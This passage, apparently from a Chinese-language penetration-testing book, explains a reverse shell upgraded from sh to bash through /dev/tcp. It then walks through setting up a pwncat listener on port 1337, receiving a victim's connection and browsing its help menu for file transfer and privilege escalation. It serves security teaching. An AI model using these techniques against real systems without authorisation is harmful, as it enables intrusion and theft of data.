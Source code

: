 在进程输出中，我们可以清楚地看到反向 shell 载荷是如何在远程服务器上执行的，从进程 ID 为 131 的进程开始。（进程 ID 在你的机器上可能不同。）

进一步解析，初始命令 sh ❶ 调用了 bash -c 命令 ❷。该命令允许我们执行所需的 shell 实例，在本例中是 bash，进程 ID 为 134 ❸。通过利用这一系列进程并访问由 */dev/tcp* 提供的网络功能，我们将反向 shell 能力从有限的 sh shell 提升为功能完整的 bash shell。这一升级为我们提供了更广泛的高级反向 shell 技巧，使得复杂的后渗透活动成为可能，并能够维持对被攻陷系统的控制。

### 使用 pwncat 监听

pwncat 是另一个有用的工具，用于捕获和交互反向 shell。它允许我们创建反向 shell 监听器，然后利用其内建模块进行各种操作。

例如，让我们通过反向 shell 发送命令。稍后在本章中，我们也将使用它进行文件上传。启动一个 pwncat 反向 shell 监听器：

```
$ **pwncat-cs -l -p 1337**

[15:54:30] Welcome to pwncat!
bound to 0.0.0.0:1337 
```

输出显示 pwncat 正在积极监听被攻陷机器发来的任何连接。

现在我们可以注入将为我们提供反向 shell 的命令，就像本章之前所做的那样。一旦 pwncat 接收到 shell，你将在终端中看到一条消息，并且能够运行命令：

```
[15:59:49] received connection from 172.16.10.12:54736
[15:59:50] 172.16.10.12:54736: registered new host w/ db manager.py:957

(local) pwncat$ 
```

消息（local）pwncat$ 是 pwncat 的提示符，你可以在此输入命令。输入 help 查看现有选项：

```
(local) pwncat$ **help**

  Command     Description
-------------------------------------------------------------------------------
  alias       Alias an existing command with a new name. Specifying [...]
  back        Return to the remote terminal
  bind        Create key aliases for when in raw mode. This only [...]
  connect     Connect to a remote victim. This command is only valid [...]
  download    Download a file from the remote host to the local host
  escalate    Attempt privilege escalation in the current session. [...]
  exit        Exit the interactive prompt. If sessions are active, [...]
  help        List known commands and print their associated help [...]
  info        View info about a module
`--snip--`
  local       Run a local shell command on your attacking machine
  lpwd        Print the local current working directory
  reset       Reset the remote terminal to the standard pwncat [...]
  run         Run a module. If no module is specified, use the [...]
  search      View info about a module
  sessions    Interact and control active remote sessions. This [...]
  set         Set runtime variable parameters for pwncat
  shortcut
  upload      Upload a file from the local host to the remote host
  use         Set the currently used module in the config handler 
```
